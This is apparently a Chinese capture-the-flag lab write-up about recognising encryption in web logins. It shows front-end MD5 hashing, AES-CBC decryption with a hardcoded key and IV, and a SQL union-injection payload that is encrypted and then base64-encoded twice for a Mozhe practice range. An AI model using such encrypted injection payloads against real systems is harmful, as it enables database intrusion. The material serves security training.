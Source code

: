 ```js
//-博客登录-zblog（前端处理）
//在头部文件中引用了md5.js
<script src="script/md5.js" type="text/javascript"></script>

//在js中
$("#btnPost").click(function(){
  var strPassWord=$("#edtPassWord").val();
  $("form").attr("action","cmd.php?act=verify");
  $("#password").val(MD5(strPassWord));
```

```php
//-墨者靶场-（后端处理）
//因为该题是经过base64两次加密，以下为源码
$td = mCrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
mcrypt_generic_init($td,'ydhaqPQnexoaDuw3','2018201920202021');
$data=mdecrypt_generic($td,base64_decode(base64_decode($data)));
//因为源代码中加密了两次，所以先对靶场给出的密文进行一次base64解密，同时源代码中也有密钥和偏移量，加密模式为CBC，之后再把解密一次后的密文再用AES进行解密。

//或者进行漏洞注入
//漏洞注入也需要经过两次加密，然后拼接到url中。
-1 union select 1,database(),user(),4_mozhe
xgd58ipTrnx8VzSBJicqCibZxIRsZKgXOYUrNQP8fCCtx9JZ+6K1hHt7RKkzV305
eGdkNThpcFRybng4VnpTQkppY3FDaWJaeElSc1pLZ1hPWVVyTlFQOGZDQ3R4OUpaKzZLMWhIdDdSS2t6VjMwNQ==
```

# 本文总结

**看密文猜加密算法，猜不出找源码，没有源码找前端js有没有泄露加密算法；如果什么都找不到，那么就无解，直接放弃。（可以直接解密的MD5或Base64除外）**



